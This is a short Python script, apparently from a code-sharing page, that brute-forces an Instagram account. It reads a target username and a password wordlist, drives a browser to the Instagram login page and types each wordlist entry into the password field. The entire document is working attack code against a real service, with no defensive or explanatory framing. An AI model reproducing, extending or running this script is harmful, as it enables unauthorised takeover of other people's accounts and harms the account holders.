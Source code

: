 
from webbot import Browser
from pynput.keyboard import Key, Controller
import time
username = input('Username: ')
dictionary = input('Choose Dictionary: ')

file = open(f'{dictionary}.txt', 'r')
bruteforce = []
for line in file:
    line = line.strip()
    bruteforce.append(line)
file.close()

web = Browser()
keyboard = Controller()

web.go_to('www.instagram.com')
time.sleep(3)
keyboard.press(Key.enter)
keyboard.release(Key.enter)
time.sleep(3)
keyboard.press(Key.tab)
keyboard.release(Key.tab)
time.sleep(3)
web.type(username)
keyboard.press(Key.tab)
keyboard.release(Key.tab)
for brute in bruteforce:
    web.type(brute, into="Password")
    keyboard.press(Key.enter)
    keyboard.release(Key.enter)
    
